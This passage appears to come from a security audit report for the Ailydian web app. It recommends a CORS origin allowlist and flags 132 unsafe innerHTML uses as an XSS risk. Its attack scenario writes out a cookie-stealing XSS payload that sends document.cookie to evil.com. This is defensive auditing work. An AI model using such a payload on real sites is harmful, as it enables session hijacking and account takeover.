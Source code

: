 **Recommendation**:
```javascript
// Replace wildcard with whitelist
const allowedOrigins = [
  'https://www.ailydian.com',
  'https://ailydian.com',
  'https://ailydian.vercel.app',
  'http://localhost:3100' // Dev only
];

app.use(cors({
  origin: function(origin, callback) {
    if (!origin || allowedOrigins.includes(origin)) {
      callback(null, true);
    } else {
      callback(new Error('Not allowed by CORS'));
    }
  },
  credentials: true
}));
```

**Fix Priority**: 🔴 **CRITICAL - Fix Immediately**

---

### 2. 🚨 XSS via innerHTML (HIGH PRIORITY)

**Issue**: 132 occurrences of `innerHTML` usage

**Risk**:
- **CVSS Score**: 8.1 (High)
- Malicious script execution
- Account takeover
- Credential theft
- Malware injection

**Vulnerable Patterns Found**:
```javascript
// public/js/chat-ailydian.js:472
bubble.innerHTML = this.processMessageContent(content);
// ⚠️ If content contains <script>, it executes!

// public/js/dashboard-core.js:155
notificationList.innerHTML = this.notifications.map(n => `...`);
// ⚠️ Notification content not sanitized
```

**Attack Scenario**:
```javascript
// Attacker sends message with XSS payload:
const message = "<img src=x onerror='fetch(\"evil.com?cookie=\"+document.cookie)'>";
// Gets executed via innerHTML → steals session cookie
```
